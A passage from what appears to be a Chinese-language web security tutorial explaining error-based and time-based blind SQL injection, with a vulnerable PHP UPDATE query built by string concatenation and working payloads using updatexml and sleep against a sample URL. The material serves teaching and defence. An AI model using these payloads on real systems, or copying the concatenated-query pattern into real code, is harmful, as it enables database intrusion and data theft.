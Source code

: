 **2.1.2、报错注入**<br />设有一个登陆页面后台SQL语句为：
```
$row1 = $row['username'];  	
$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
```

当我们输入：
```
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1) #&submit=Submit
```

实际执行的语句为：
```
UPDATE users SET password = '' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)
```

**分析：**`password = ''`为假，然后执行后面的语，所以页面会通过updatexml函数报错回显出security数据库里面的users数据表的字段，可以通过修改limit来查出所有的字段。
![image.png](../../_img/02-Web安全/01-基础知识/1664335300707-9f6717b3-a0aa-4c09-9615-989e059951a2.png)

**2.1.3、时间盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"`

当我们输入
```
http://xmtxsec.top/test.php/?id=1' and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',1,sleep(5))--+
```
